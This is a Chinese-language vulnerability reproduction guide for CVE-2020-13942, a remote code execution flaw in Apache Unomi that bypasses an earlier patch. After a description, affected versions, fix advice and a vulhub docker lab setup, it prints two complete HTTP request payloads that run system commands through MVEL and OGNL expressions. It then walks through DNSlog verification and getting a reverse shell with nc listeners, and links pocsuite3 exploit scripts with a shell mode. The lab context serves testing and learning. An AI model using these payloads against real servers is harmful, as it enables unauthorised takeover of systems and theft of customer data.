

# CVE-2020-13942 Apache Unomi 远程表达式代码执行漏洞

##  0x00 漏洞描述

Apache Unomi是一个Java开源客户数据平台，这是一个Java服务器，旨在管理客户，潜在顾客和访问者的数据，并帮助个性化客户体验。Unomi可用于在非常不同的系统（例如CMS，CRM，问题跟踪器，本机移动应用程序等）中集成个性化和配置文件管理。
在Apache Unomi 1.5.1版本之前，攻击者可以通过精心构造的MVEL或ONGl表达式来发送恶意请求，使得Unomi服务器执行任意代码，漏洞对应编号为CVE-2020-11975，而CVE-2020-13942漏洞是对CVE-2020-11975漏洞的补丁绕过，攻击者绕过补丁检测的黑名单，发送恶意请求，在服务器执行任意代码。

## 0x01 影响版本

Apache Unomi < 1.5.2

## 0x02 修复建议

1、尽可能避免将用户数据放入表达式解释器中

2、建议升级至最新版本

## 0x03 环境搭建

1、下载地址：

`https://github.com/vulhub/vulhub/tree/master/unomi/CVE-2020-13942`

`cd CVE-2020-13942`

`docker-compose up -d`


执行上述docker指令后，服务也启动了，占用8181端口。


2、访问`https://your-ip:8181/`出现以下页面，证明测试环境部署成功：


## 0x04 漏洞利用

### 漏洞复现

POC1:

```http
POST /context.json HTTP/1.1
Host: 192.168.52.128:8181
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Content-Length: 548

{
    "filters": [
        {
            "id": "6666",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\" command\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "6666"
}
```

POC2:

```http
POST /context.json HTTP/1.1
Host: 192.168.52.128:8181
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Content-Length: 548

{
  "personalizations":[
    {
      "id":"gender-test",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\" command\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"6666"
}
```

1、到`http://www.dnslog.cn/`获取子域名


2、到`http://www.jackson-t.ca/runtime-exec-payloads.html`将payload进行base64编码


3、将上述编码后的payload替换到POC1报文中command，使用burpsuite发送请求：


4、到`http://www.dnslog.cn/`刷新日志


5、到`http://www.jackson-t.ca/runtime-exec-payloads.html`将payload2进行base64编码


6、将上述编码后的payload2替换到POC2报文中command，使用burpsuite发送请求：



7、到`http://www.dnslog.cn/`刷新日志


### 反弹shell

1、在本地cmd或powershell设置nc监听指定端口6666

`nc -lvp 6666`

2、到`http://www.jackson-t.ca/runtime-exec-payloads.html`将getshell的payload3进行base64编码


3、将上述编码后的payload3替换到POC1报文中command，使用burpsuite发送请求：


4、getshell成功，本地获取服务器控制：


5、在本地cmd或powershell设置nc监听指定端口7777

`nc -lvp 7777`

6、到`http://www.jackson-t.ca/runtime-exec-payloads.html`将getshell的payload4进行base64编码


7、将上述编码后的payload4替换到POC2报文中command，使用burpsuite发送请求：


8、getshell成功，本地获取服务器控制：


## 0x05 利用脚本

pocsuite3脚本exp：

`https://github.com/A11an10/poc/blob/main/CVE-2020-13942-poc/apache_unomi_cve202013942_poc1.py`

`https://github.com/A11an10/poc/blob/main/CVE-2020-13942-poc/apache_unomi_cve202013942_poc2.py`

### verify模式：

`pocsuite -r .\apache_unomi_cve202013942_poc1.py -u http://IP:PORT --verify`


`pocsuite -r .\apache_unomi_cve202013942_poc2.py -u http://IP:PORT --verify`


### shell模式：

`pocsuite -r .\apache_unomi_cve202013942_poc1.py -u http://IP:PORT --shell`


`pocsuite -r .\apache_unomi_cve202013942_poc2.py -u http://IP:PORT --shell`


